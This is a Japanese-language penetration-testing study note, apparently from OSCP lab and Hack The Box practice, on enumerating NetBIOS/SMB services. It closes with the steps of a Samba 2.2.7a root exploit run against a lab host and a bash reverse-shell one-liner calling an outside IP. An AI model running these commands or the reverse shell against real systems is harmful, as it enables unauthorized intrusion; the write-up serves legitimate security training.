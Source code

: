 # NetBIOS(139)

[toc]

### nbtscan

有効なNetBIOS名をNetBIOSネームサービスに問い合わせる

```bash
┌──(kali㉿kali)-[~/Documents/OSCP/7.ActiveInformationGathering]
└─$ sudo nbtscan -r 10.11.1.0/24
Doing NBT name scan for addresses from 10.11.1.0/24

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
10.11.1.5        ALICE            <server>  ALICE            00:50:56:ba:1a:c5
10.11.1.101      BREAK            <server>  BREAK            00:00:00:00:00:00
10.11.1.115      TOPHAT           <server>  TOPHAT           00:00:00:00:00:00
10.11.1.136      SUFFERANCE       <server>  SUFFERANCE       00:00:00:00:00:00
10.11.1.231      MAILMAN          <server>  MAILMAN          00:00:00:00:00:00
10.11.1.227      JD               <server>  ADMINISTRATOR    00:50:56:ba:9a:98
----
```

* rオプション：発信UDPポートを137として指定するために使用

### nmap

```
nmap -T4 -p 139,445 --script=smb-vuln* 10.11.1.5 
```



### enum4linux

```
enum4linux 10.11.1.115 
```

https://forums.offensive-security.com/showthread.php?26657-enum4linux-and-smbclient-fix-for-quot-protocol-negotiation-failed-NT_STATUS_CONNECTION_DISCONNECTED-quot&highlight=version

以下メッセージが出た場合の解消方法

```
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

/etc/samba/smb.confを編集し、グローバルセクションに1行を追加することである(これは、セッションを交渉するときに古いプロトコルを使うようにシステムに指示する)。

```bash
client min protocol = LANMAN1
```

```
sudo vi /etc/samba/smb.conf
```

![image-20230214231216669](img/NetBIOS(139)/image-20230214231216669.png)

※バージョン確認はwiresharkでも合わせて実施すること。10.11.1.115ではenum4linuxで出たsambaバージョンがあっておらずExploitで大分苦労した。



### smbmap

permissonをチェック

```bash
smbmap -H 10.11.1.115 -P 139 
```

共有フォルダの列挙

```bash
＃smbmap -R <共有名> -H </etc/hostsに設定したホスト名 or IP>
smbmap -R Replication -H active.htb
```

![image-20230423195843748](img/NetBIOS(139)/image-20230423195843748.png)



### smbclient

```bash
smbclient //10.11.1.115/IPC$/
smbclient -L 10.11.1.115
smbclient -U svc_tgs //active.htb/Users
```



### smbclientで接続ができたらwiresharkでSMBのバージョンを確認する

![image-20230214231236984](img/NetBIOS(139)/image-20230214231236984.png)



## Exploit

unix.samba 2.2.7a

特に特殊なことはせず、コンパイルして実行するだけでうまくexploitできる。しかもrootで。

```bash
searchsploit samba 2.2 | grep -v windows | grep -v Overflow
```

![image-20230214231425349](img/NetBIOS(139)/image-20230214231425349.png)

```
searchsploit -p 10
```

```
gcc -static 10.c -o sambal
```

```
./sambal -d 0 -C 60 -S 10.11.1.115
```

```
cat proof.txt
377bbe9add593ba528fd9bd3104d2f25
```

```
bash -i >& /dev/tcp/192.168.119.167/4444 0>&1
```

![image-20230214231450983](img/NetBIOS(139)/image-20230214231450983.png)

